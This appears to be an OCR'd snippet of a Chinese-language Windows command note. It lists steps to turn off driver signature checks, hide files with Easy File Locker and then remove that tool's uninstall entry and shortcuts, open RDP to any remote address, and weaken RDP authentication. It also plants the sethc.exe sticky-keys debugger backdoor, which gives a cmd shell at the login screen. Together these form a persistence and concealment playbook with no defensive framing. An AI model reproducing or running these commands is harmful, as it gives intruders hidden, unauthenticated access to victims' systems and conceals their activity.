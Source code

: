  ！！ 禁止强制签名，以管理员的身份运行cmd 执行以下命令  Win2012 Can: 
bcdedit.exe /set nointegritychecks on  
\\Easy File Locker  （！！！注意：只需要赋予Access权限，其他都不需要，切记切记）
删除1.   REG delete "HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\Easy file Locker" /f
删除2：安装目录
删除3： C:\Users\master\AppData\Roaming\Microsoft\Windows\Start Menu\Programs   （快捷方式）

C:/Users/Public/Documents/EFL/rule.ini  隐藏的定义在此
Easy File Locker添加需要隐藏的文件，只赋予access权限，即可实现文件的隐藏。

cmd.exe /c reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /t REG_DWORD /v portnumber /d 3389 /f 
cmd.exe /c wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1
cmd.exe /c netsh advfirewall firewall add rule name="RemoteDesktop_Allow" dir=in protocol=TCP action=allow localport=3389 remoteip=any


1.reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /t REG_DWORD /v portnumber /d 3389 /f   \\配置端口为3389
2.wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1  （open terminal, 0 close)
3. netsh advfirewall firewall add rule name="RemoteDesktop_Allow" dir=in protocol=TCP action=allow localport=3389 remoteip=any
4.netsh advfirewall firewall show rule name="RemoteDesktop_Allow"  
5. netsh advfirewall firewall del rule name="RemoteDesktop_Allow"


reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v "Debugger" /t REG_SZ /d "\"c:\windows\system32\cmd.exe\" /z" /f
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v SecurityLayer /t REG_DWORD /d 0 /f




